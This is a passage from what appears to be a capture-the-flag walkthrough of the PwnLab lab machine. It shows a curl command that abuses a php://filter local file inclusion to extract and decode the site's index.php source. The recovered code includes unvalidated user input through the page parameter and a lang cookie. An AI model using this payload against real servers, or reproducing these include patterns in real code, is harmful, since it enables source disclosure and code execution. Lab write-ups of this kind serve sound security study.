 ```console
                        die('Error 003');
                }

                $uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

                if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
                        echo "<img src=\"".$uploadfile."\"><br />";
                } else {
                        die('Error 4');
                }
        }
}

?>
```

We can see in the index.php file that it includes any file without validating the input and adds the .php extension.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=index" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee index.php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
        include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
        if (isset($_GET['page']))
        {
                include($_GET['page'].".php");
        }
        else
        {
                echo "Use this server to upload and share image files inside the intranet";
        }
?>
</center>
</body>
</html>
```
